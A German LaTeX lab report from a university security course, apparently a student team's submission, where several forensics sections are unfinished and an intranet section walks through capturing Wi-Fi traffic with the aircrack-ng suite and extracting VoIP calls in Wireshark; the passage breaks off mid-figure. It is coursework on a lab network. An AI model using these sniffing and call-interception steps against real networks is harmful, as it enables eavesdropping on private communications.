%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%
% Institut für Rechnergestuetzte Automation
% Forschungsgruppe Industrial Software
% Arbeitsgruppe ESSE
% https://security.inso.tuwien.ac.at/
% lva.security@inso.tuwien.ac.at
%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\documentclass[12pt,a4paper,titlepage,oneside]{scrartcl}
\newcommand{\lang}{de}
\usepackage{esseProtocol}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%
% FOR STUDENTS
%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

% Team number or "0" for Lab0
%TODO team number
\newcommand{\team}{66}
% Date
%TODO fill in creation date
\newcommand{\datum}{23.11.2018}
%TODO lab number
% valid values: "Lab0", "Lab1" (be sure to use Uppercase for first character)
\newcommand{\lab}{Lab1}

%TODO name of course
\newcommand{\lvaname}{Introduction to Security}
%TODO number of course
\newcommand{\lvanr}{183.594}
%TODO year and term, for example: "SS 2012", "WS 2012", "SS 2013", etc.
\newcommand{\semester}{WS 2018}

% Student data in Lab0 or 1. student of team in Lab1
\newcommand{\studentAName}{Bernhard Ploder}
\renewcommand{\studentAMatrnr}{01627766}

% 2. student of team in Lab1, for Lab0 or if your team has less students, remove these 2 lines
\newcommand{\studentBName}{Marco Fähndrich}
\renewcommand{\studentBMatrnr}{01625748}

% 3. student of team in Lab1, for Lab0 or if your team has less students, remove these 2 lines
\newcommand{\studentCName}{Dominik Fenzl}
\renewcommand{\studentCMatrnr}{01526544}

% 4. student of team in Lab1, for Lab0 or if your team has less students, remove these 2 lines
\newcommand{\studentDName}{Alexander Hurbean}
\renewcommand{\studentDMatrnr}{01625747}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%
% DO NOT CHANGE THE FOLLOWING PART
%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\newcommand{\colormode}{color}
\newcommand{\dokumenttyp}{Abgabedokument \lab}

\begin{document}

\maketitle
\setcounter{section}{0}
\setcounter{tocdepth}{2}
\tableofcontents

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%
% CONTENT OF DOCUMENT STARTS HERE
%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\section{Forensik}

\subsection{Lizenzvertrag}
\emph{TO BE DONE}

\subsection{Lizenz-Nachzahlung}
\emph{TO BE DONE}

\subsection{Lizenz-Notiz}
\emph{TO BE DONE}

\subsection{Appendix \#07}
\emph{TO BE DONE}

\subsection{Appendix \#04}
\emph{TO BE DONE}

\subsection{Lizenz-Berechtigung}
\emph{TO BE DONE}

\subsection{Crypto-Ref-ID}
\emph{TO BE DONE}

\section{Intranet}

\subsection{Netzwerkkarten Setup}
Um die Intranet Aufgaben zu lösen haben wir beim ersten TimeSlot alle zusammen geschaut alle nötigen Pakete mit der aircrack-ng Suite abzufangen. Dafür sind wir dem Tutorial auf der \href{https://www.aircrack-ng.org/doku.php?id=cracking_wpa}{aircrack-ng} Wiki gefolgt.

Wir haben zu aller erst geschaut welche W-Lan fähigen Interfaces wir haben:

\begin{lstlisting}
is_team66@debian:~$ iwconfig
  lo	  no wireless extensions.
  
  wlp3s0	  IEEE 802.11  Mode:Monitor  Frequency:2.412 GHz  Tx-Power=15 dBm
      Retry short limit:7	RTS thr:off   Fragment thr:off
      Power Management:off
  
  ens1	  no wireless extensions.
  
  irda0	  no wireless extensions.
\end{lstlisting}

Anschließend haben wir sie in den Monitor Modus umgeschaltet damit sie auch Pakete empfangen/aufnehmen kann die nicht an sie gerichtet sind.

\begin{lstlisting}
is_team66@debian:~$ sudo airmon-ng start wlp3s0
  PHY	Interface	Driver		Chipset
  
  phy0	wlp3s0		iwl3945 	Intel Corporation PRO/Wireless 3945ABG [Golan] (rev 02)
\end{lstlisting}

Dann haben wir geschaut ob die Netzwerkkarte Injection ünterstüzt mit dem Befehl

\begin{lstlisting}
  is_team66@debian:~$ sudo aireplay-ng -9 wlp3s0
  14:12:27  Trying broadcast probe requests..
  14:12:27  Injection is working!
  14:12:28  Found 10 APs
  
  14:12:28  Trying directed probe requests...
  14:12:28  04:18:D6:17:78:80 - channel: 1 - 'INSO'
  14:12:2900Ping (min/avg/max): 1.284ms/11.915ms/144.130ms Power: -50.67
  14:12:29  30/30: 100%
  
  .
  .
  
  14:12:40  00:18:39:BF:D7:66 - channel: 1 - 'SecureHotDog'
  14:12:4100Ping (min/avg/max): 0.781ms/4.219ms/39.155ms Power: -31.60
  14:12:41  30/30: 100%
  
  14:12:41  02:18:39:BF:D7:67 - channel: 1 - 'HotDog'
  14:12:4100Ping (min/avg/max): 1.036ms/6.279ms/54.140ms Power: -27.33
  14:12:41  30/30: 100%
  
  .
  .
\end{lstlisting}

\subsection{airodump-ng HotDog}
Anschließend haben wir mit airodump-ng versucht Pakete abzugreifen oder einfach hinzulauschen was so passiert und haben nach 2 Minuten folgenden Output gehabt:

\begin{lstlisting}
is_team66@debian:~$ sudo airodump-ng wlp3s0

  CH  1 ][ Elapsed: 2 mins ][ 2018-11-23 14:29

 BSSID		    PWR RXQ  Beacons	#Data, #/s  CH	MB   ENC  CIPHER AUTH ESSID

 02:18:39:BF:D7:67  -26  61	1391	    0	 0   1	54   OPN	      HotDog
 00:18:39:BF:D7:66  -24  51	1389	    4	 0   1	54   WPA  TKIP	 PSK  SecureHotDog

 BSSID		    STATION	       PWR   Rate    Lost    Frames  Probe

 02:18:39:BF:D7:67  74:DA:38:F0:40:C2  -28    1 - 1	 0	 24
 02:18:39:BF:D7:67  74:DA:38:F0:41:1C  -34    1 -24	 0	 26
 02:18:39:BF:D7:67  80:1F:02:AB:A9:9C  -37    1 - 1	 0	 26
 02:18:39:BF:D7:67  80:1F:02:AB:A9:9B  -52    1 -24	 0	 26
 00:18:39:BF:D7:66  80:1F:02:AB:A9:9E  -32    1 -24	 0	 45
 00:18:39:BF:D7:66  80:1F:02:AB:A9:86  -42    1 -24	 0	 19
 
\end{lstlisting}

Da uns im Moment eigentlich nur der HotDog interessiert hat, haben wir versucht mit der \lstinline{-e} Option den HotDog zu filtern, ist uns aber nicht gelungen weil die vorhandene Version von airodump-ng das nicht unterstützt hat.
Wir haben den selben Befehl länger laufen lassen (10 Minuten) und sind so zu unseren pcap Files gekommen die die nötigen Daten enthalten um den Verkehr von HotDog zu untersuchen.

\subsection{VoIP}

Wir haben die abgefangenen Pakete (in der \lstinline{.cap} Datei von \lstinline{airodump-ng}) in Wireshark geöffnet um diese zu untersuchen.

Unter dem Menü-Punkt \lstinline{Telephony/VoIP Calls} habe ich alle in dem Paket enthaltenen VoIP Calls angezeigt bekommen.

\begin{figure}[h!]
  \centering
    
\includegraphics[width=0.6\textwidth]{./imgs/intranet_screenshots/ws_voipcalls_wnd.png}
  \caption{Alle vorhandenen VoIP Calls}
  \label{fig:allvoipcalls}
\end{figure}

Beim auswählen vom Ersten und \lstinline{Play Streams} klicken sieht man dass zwei Tonspuren gefunden wurden, anhand der beiden Flecken im angezeigten Diagram.

\begin{figure}[h!]
  \centering
    
\includegraphics[width=0.5\textwidth]{./imgs/intranet_screenshots/ws_rtpplayer.png}
  \caption{Tonspuren des VoIP Calls}
  \label{fig:rtpplayer}
\end{figure}

Um die Pakete die zu diesem einem VoIP Call gehören aus dem \lstinline{.cap} File zu filtern bin ich zurück zum Hauptfenster und filtere nach \lstinline{sip || rtp} damit ich alle Pakete finde die für den Aufbau der Verbindung nötig sind (sip) oder die Daten selbst sind (rtp).

Im Fenster (wo nun alle relevanten Pakete sind) habe ich mir das erste sip Paket das ein Invite Request ist unter die Lupe genommen. Dort habe ich im Message-Header nach der Call-ID gesucht und alle Pakete mit der selben Call-ID gleich gefärbt werden sollen.

\begin{figure}[h!]
  \centering
    
\includegraphics[width=1\textwidth]{./imgs/intranet_screenshots/ws_sipcallfilter.png}
  \caption{Filtern eines SIP Calls}
  \label{fig:sipcallfilter}
\end{figure}

Nun hab ich farblich abgestimmt gesehen welche SIP-Pakete zusammen gehören.

Wenn ich mir das erste RTP-Paket anschaue, sehe ich dass es zum ersten SIP-Call gehört anhand dem referenzierten Setup Paket.

\begin{figure}[h!]
  \centering
    
\includegraphics[width=0.5\textwidth]{./imgs/intranet_screenshots/ws_rtppaket.png}
  \caption{RTP Paket Untersuchung}
  \label{fig:rtppacket}
\end{figure}

Um das RTP Paket richtig zu decodieren, decodiere ich es als UDP Paket, weil das aus dem RDP Paket aus sichtbar ist dass es über UDP geschickt worden ist. \lstinline{Rechtsklick/Decode As../}

\begin{figure}[h!]
  \centering
    
\includegraphics[width=0.5\textwidth]{./imgs/intranet_screenshots/ws_decodeas.png}
  \caption{Decode As}
  \label{fig:rtppacket}
\end{figure}

Nun kann ich sämtliche Streams unter \lstinline{Telephony/RTP/Stream Analysis} speichern und mir mit VLC anhören.

\begin{figure}[h!]
  \centering
